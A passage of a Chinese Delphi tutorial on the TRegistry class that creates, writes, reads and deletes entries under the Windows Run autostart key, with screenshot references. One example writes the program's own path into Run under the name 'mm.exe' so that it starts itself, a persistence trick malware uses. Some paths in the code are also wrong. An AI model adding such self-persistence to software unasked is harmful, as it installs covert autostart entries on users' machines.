首先来演示如何写入 Run 启动项，Run 启动项在注册表中的路径为“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run”，如图 2.15。因为我们要使用注册表对象来访问注册表，所以要加入 Registry 库文件，如图 2.16。

### 2.2.1 注册表基础

- 1. 创建一个关键字

TRegistry 类中有一个 CreateKey 方法，使用该方法可以在注册表中创建一个新的关键字，该方法的原型声明为“CreateKey(const Key: string): Boolean;”，首先在程序窗体中添加一个按钮组件，如图 2.17，然后再输入以下代码：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, Registry;  // 注意，要加入这个 Registry 库文件。

type
  TForm1 = class(TForm)
    Button1: TButton;
    Label1: TLabel;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations. }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  a: TRegistry;
begin
  a := TRegistry.Create;
  a.RootKey := HKEY_CURRENT_USER;  // 设置根键
  a.OpenKey('Software\\Microsoft\\Windows\\CurrentVersion\\Run', False);  // False 表示不创建
  if not a.KeyExists('Passwd') then
    a.CreateKey('Passwd');
  a.Free;

  a := TRegistry.Create;
  a.RootKey := HKEY_CURRENT_USER;  // 设置根键
  if a.OpenKey('Software\\Microsoft\\Windows\\CurrentVersion\\Run\\Passwd', False) then
    Label1.Caption := '关键字 Passwd 已建立!'
  else
    Label1.Caption := '关键字 Passwd 无法建立!';
  a.Free; // 释放对象
end;

end.
```

程序首先使用 Create 方法创建 Registry 对象，然后使用 RootKey 来设置根键，接着又使用 OpenKey 函数来打开注册表路径，最后使用 CreateKey 函数来创建一个 Passwd 关键字。我们按 F9 运行程序，点击创建按钮，提示创建成功，如图 2.18。此时，来到 Run 键下面，可以看到已经新建了一个注册表关键字，如图 2.19。

#### 2、写入相关的数据值

在 TRegistry 类中提供了一系列的 Write 方法用于写入当前关键字相关的数据值，常用方法的原型定又如下：

```pascal
procedure WriteString(const Name: string; Value: string);
procedure WriteInteger(const Name: string; Value: Integer);
procedure WriteFloat(const Name: string; Value: Double);
procedure WriteTime(const Name: string; Value: TDateTime);
procedure WriteBool(const Name: string; Value: Boolean);
```

首先在程序窗体界面中添加一个按钮，如图 2.20，然后编写如下的代码。





图 2.19

图 2.20

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, Registry, StdCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  a: TRegistry;
begin
  a := TRegistry.Create;
  a.RootKey := HKEY_CURRENT_USER; // 设置根键
  a.OpenKey('Software\Microsoft\Windows\CurrentVersion\Run', False); // False 表示不创建
  a.WriteString('mm.exe', ParamStr(0)); // 把自己写入到自启动中
  a.Free; // 释放对象
end;

end.
```

程序使用到了 WriteString 函数来向注册表中写入一个字符串的值，写入的值在注册表的右侧，按 F9 运行程序后点击“写RUN”按钮，如图 2.21。我们来到注册表的启动项下，可以看到已经写入了一个 MM.EXE 的值，如图 2.22。





#### 3、读出相关的数据值

在 TRegistry 类中还提供了与 Write 方法相对应的用于读出与当前关键字相关的数据值，常用方法的原型定义如下：

```pascal
function ReadString(const Name: string): string;
function ReadInteger(const Name: string): Integer;
function ReadFloat(const Name: string): Double;
function ReadTime(const Name: string): TDateTime;
function ReadBool(const Name: string): Boolean;
```

下面再来演示一下读取注册表启动项下面的值，注册表启动项的路径为“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run”，首先来看一下注册表 RUN 下面的值，如图 2.23。我们演示读取 CTFMON.EXE 下面的值，也就是输入法的路径，首先给出程序的界面，如图 2.24。然后，输入如下的代码：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, Registry, StdCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  a: TRegistry;
  s: string;
begin
  a := TRegistry.Create;
  a.RootKey := HKEY_CURRENT_USER; // 设置根键
  a.OpenKey('Software\Microsoft\Windows\CurrentVersion\Run', False); // False 表示不创建
  s := a.ReadString('ctfmon.exe');
  ShowMessage(s);
end;

end.
```





图 2.23

图 2.24

按 F9 运行程序，弹出了一个对话框，显示出了 CTFMON.EXE 的路径，如图 2.25。

## 4．删除关键字

使用 TRegistry 中提供的 DeleteKey 和 DeleteValue 方法可以删除指定的关键字和数据值，这两个方法的原型定义如下：

```pascal
DeleteKey(const Key: string): Boolean;
DeleteValue(const Name: string): Boolean;
```



使用 DeleteKey 方法删除指定的关键字时，如果被删除的关键字在任何层次有子关键字，它们将同时被删除。上面两个方法在执行时，如果删除成功，则返回 True，否则返回 False。我们添加两个按钮，一个用来删除关键字（注册表左侧部分），一个用来删除值（注册表右侧部分），如图 2.26。

然后输入如下的代码：



```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes,
  Graphics, Controls, Forms,
  Dialogs, StdCtrls, Registry; // 添加

type
  TForm1 = class(TForm)
    Button1: TButton;
    Button2: TButton;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  a: TRegistry;
begin
  a := TRegistry.Create;
  a.RootKey := HKEY_CURRENT_USER; // 设置根键
  a.OpenKey('Software\Microsoft\Windows\Current\Version\Run', False); // False 表示不创建
  a.DeleteKey('passwd'); // 删除关键字
  a.Free;
end;

procedure TForm1.Button2Click(Sender: TObject);
var
  a: TRegistry;
begin
  a := TRegistry.Create;
  a.RootKey := HKEY_CURRENT_USER; // 设置根键
  a.OpenKey('Software\Microsoft\Windows\Current\Version\Run', False); // False 表示不创建
  a.DeleteValue('ctfmon.exe'); // 删除值
  a.Free;
end;
```



图 2.27



图 2.28

首先，我们打开注册表的 RUN 关键字，可以看到下面有个 PASSWD 关键字，如图 2.27。此时，点击程序中的“删除关键字”，就会删除这个 PASSWD 关键字了，如图 2.28。注册表在删除之后的结果如图 2.29 所示，可以看到已经没有 PASSWD 关键字了。我们再来看存在的 CTFMON.EXE 值，如图 2.30。

